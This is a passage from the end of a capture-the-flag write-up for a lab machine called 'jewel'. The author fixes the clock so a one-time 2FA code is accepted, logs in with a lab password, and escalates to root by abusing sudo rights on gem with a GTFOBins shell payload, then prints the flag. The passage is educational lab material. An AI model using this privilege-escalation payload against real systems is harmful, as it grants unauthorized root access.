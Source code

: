 ```
           Universal time: qui 2020-11-26 21:33:09 UTC
                 RTC time: qui 2020-11-26 21:33:09    
                Time zone: Europe/Lisbon (WET, +0000) 
```

So it was clear that the token was expired for the ssh shell ... <br>

So i changed my timezone and the time to match almost perfectly
```
cmd: timedatectl --help

set-time TIME            Set system time
set-timezone ZONE        Set system time zone


cmd: timedatectl set-timezone Europe/London
cmd: timedatectl set-time 21:45:54
```

Went to the ssh shell and issued one more time
```
sudo -l
Password: spongebob
Verification code: 728528

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem

```

From gtfo bins directly to you (src: https://gtfobins.github.io/gtfobins/gem/)
```
sudo gem open -e "/bin/bash -c /bin/bash" rdoc

whoami && id
root
uid=0(root) gid=0(root) groups=0(root)

cat ~/root.txt
FLAG:b00acaf2a5004307c5e650c8a0dc3ff2
```


